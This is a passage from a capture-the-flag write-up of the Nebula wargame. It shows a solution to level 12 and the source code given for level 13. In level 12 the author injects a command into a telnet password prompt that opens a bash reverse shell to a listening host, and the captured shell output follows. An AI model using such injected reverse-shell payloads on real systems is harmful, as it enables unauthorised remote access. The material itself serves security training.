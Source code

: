We make a telnet request and send our injected command.

```shell
level12@nebula:/home/flag12$ telnet localhost 50001
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: echo asdf; bash -i >& /dev/tcp/192.168.144.1/8000 0>&1; echo asdf
```

We get a reverse shell.

```shell
Ncat: Connection from 192.168.144.191.
Ncat: Connection from 192.168.144.191:40283.
bash: no job control in this shell
flag12@nebula:/$ whoami
whoami
flag12
flag12@nebula:/$ id
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)
flag12@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 13

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);

}
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md